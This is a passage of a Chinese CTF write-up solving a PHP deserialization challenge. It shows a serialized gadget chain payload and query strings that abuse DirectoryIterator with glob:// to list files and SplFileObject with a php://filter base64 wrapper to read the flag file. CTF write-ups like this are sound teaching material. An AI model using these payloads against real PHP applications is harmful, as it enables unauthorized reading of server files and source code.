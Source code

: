 ```
        if(isset($_GET['CTF']))
        {
            $this->tmp2=$_GET['CTF'];
        }
        echo new $this->tmp1($this->tmp2);
    }
}

$a = new A1();
echo urlencode(serialize($a));
```

得到部分payload：

```
O%3A2%3A%22A1%22%3A2%3A%7Bs%3A4%3A%22tmp1%22%3BO%3A2%3A%22A3%22%3A2%3A%7Bs%3A4%3A%22tmp1%22%3BN%3Bs%3A4%3A%22tmp2%22%3BO%3A2%3A%22A4%22%3A2%3A%7Bs%3A4%3A%22tmp1%22%3BO%3A2%3A%22A6%22%3A2%3A%7Bs%3A4%3A%22tmp1%22%3BO%3A2%3A%22A8%22%3A2%3A%7Bs%3A4%3A%22tmp1%22%3BN%3Bs%3A4%3A%22tmp2%22%3BN%3B%7Ds%3A4%3A%22tmp2%22%3BN%3B%7Ds%3A4%3A%22tmp2%22%3BN%3B%7D%7Ds%3A4%3A%22tmp2%22%3BN%3B%7D
```

将上方的payload传入DASCTF参数即可

这个时候当字符串反序列化到`A8`这个类中，需要我们传入`DAS`以及`CTF`参数，其中关键代码如下：

```
echo new $this->tmp1($this->tmp2);
```

因此我们先把flag文件名找出来，我们可以利用DirectoryIterator类结合glob遍历目录，得到flag文件名为`flaggggggggggg.php`

```
?DAS=DirectoryIterator&CTF=glob://flag*
```

得到文件名之后就读取文件，利用SplFileObject类结合伪协议读取`flaggggggggggg.php`文件

```
?DASCTF=O%3A2%3A%22A1%22%3A2%3A%7Bs%3A4%3A%22tmp1%22%3BO%3A2%3A%22A3%22%3A2%3A%7Bs%3A4%3A%22tmp1%22%3BN%3Bs%3A4%3A%22tmp2%22%3BO%3A2%3A%22A4%22%3A2%3A%7Bs%3A4%3A%22tmp1%22%3BO%3A2%3A%22A6%22%3A2%3A%7Bs%3A4%3A%22tmp1%22%3BO%3A2%3A%22A8%22%3A2%3A%7Bs%3A4%3A%22tmp1%22%3BN%3Bs%3A4%3A%22tmp2%22%3BN%3B%7Ds%3A4%3A%22tmp2%22%3BN%3B%7Ds%3A4%3A%22tmp2%22%3BN%3B%7D%7Ds%3A4%3A%22tmp2%22%3BN%3B%7D&DAS=SplFileObject&CTF=php://filter/convert.base64-encode/resource=flaggggggggggg.php

```

最终再将浏览器的回显进行base64解码即可得到flag
